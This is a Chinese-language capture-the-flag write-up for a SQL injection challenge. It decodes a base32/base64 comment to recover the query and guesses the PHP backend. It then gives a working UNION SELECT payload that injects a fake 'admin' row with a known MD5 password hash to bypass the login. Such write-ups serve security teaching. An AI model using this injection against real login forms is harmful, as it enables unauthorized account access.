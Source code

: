 # 知识点：

# 1.sql语句猜测

# 2.base32，base64解码

# 3.脑洞

### 当查询的数据不存在的时候，联合查询就会构造一个虚拟的数据。

列如：

select * from admin1 where username='a'union select null,null,null;

![](images/E2C1F8F0EF9840E8BD1A25994473772Bclipboard.png)

select * from admin1 where username='a'union select null,'admin','123';

![](images/B7437672E79A4CFD88F2B7B38452DE4Fclipboard.png)

当把null替换为字符串，联合查询就会将替换的字符串查询出来





# 1.search.php存在注释字符串

```javascript
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

全是大写，推测时base32

Base32使用了ASCII编码中可打印的32个字符**(大写字母A-Z和数字2~7)**对任意字节数据进行编码

解码之后再base64解码即可得到：

```javascript
select * from admin1 where username = '$name'
```



推测需要注入username.



# 2.测试过滤

发现union/**/select没有过滤。

且存在三个字段

```javascript
a'union select null,null,null--+
```



![](images/DC5FFFAFDF64449C815E737676477EC7clipboard.png)

提示usrname错误，尝试是否有回显，发现过滤了括号()



# 3.推测后台代码为：

```javascript
<?php$row;
$pass=$_POST['pw'];
if($row['username']==’admin’){
if($row['password']==md5($pass)){ 
echo $flag; 
}else{ echo “wrong pass!”; 
}}
else{ echo “wrong user!”;}
```



# 4.此时推测应该不可以注入出数据，可以尝试联合查询的一个特性：

当查询的数据不存在的时候，联合查询就会构造一个虚拟的数据。



payload:

```javascript
name=0'union/**/select/**/0,'admin','202cb962ac59075b964b07152d234b70'--+&pw=123
```

202cb962ac59075b964b07152d234b70为123的MD5加密。联合查询查询的结果就为：

username:admin

password:202cb962ac59075b964b07152d234b70

此时即可登陆成功得到flag

![](images/F911556B559243D3805D10908BEB30F3clipboard.png)





